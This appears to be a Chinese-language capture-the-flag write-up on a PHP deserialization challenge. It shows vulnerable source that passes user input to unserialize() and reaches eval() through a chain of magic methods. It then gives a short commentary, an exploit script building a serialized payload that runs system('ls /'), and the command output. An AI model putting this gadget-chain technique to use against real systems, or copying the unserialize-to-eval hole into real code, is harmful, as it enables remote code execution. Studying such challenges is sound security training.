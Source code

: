 ```

    function __destruct()
    {
        $this->start->helloworld();
    }
}

class springboard
{
    public $middle;

    function __call($name, $arguments)
    {
        echo $this->middle->hs;
    }
}

class evil
{
    public $end;

    function __construct($end)
    {
        $this->end = $end;
    }

    function __get($Attribute)
    {
        eval($this->end);
    }
}

if(isset($_GET['serialize'])) {
    unserialize($_GET['serialize']);
} else {
    highlight_file(__FILE__);
} 
```
看到entrance类里有start应该是链子开始，然后_destruct方法会调用不存在的函数helloworld()触发call方法，所以下一步得到springboard类中最后到evil类中给嗯对赋值指令得到flag
```
 <?php
class entrance
{
    public $start;
}
class springboard
{
    public $middle;
}
class evil
{
    public $end;
}
$a=new entrance;
$a->start=new springboard;
$a->start->middle=new evil;
$a->start->middle->end="system('ls /');";
echo serialize($a);

O:8:"entrance":1:{s:5:"start";O:11:"springboard":1:{s:6:"middle";O:4:"evil":1:{s:3:"end";s:15:"system('ls /');";}}}
bin boot dev etc flag home lib lib64 media mnt opt proc root run sbin srv start.sh sys tmp usr var 
```
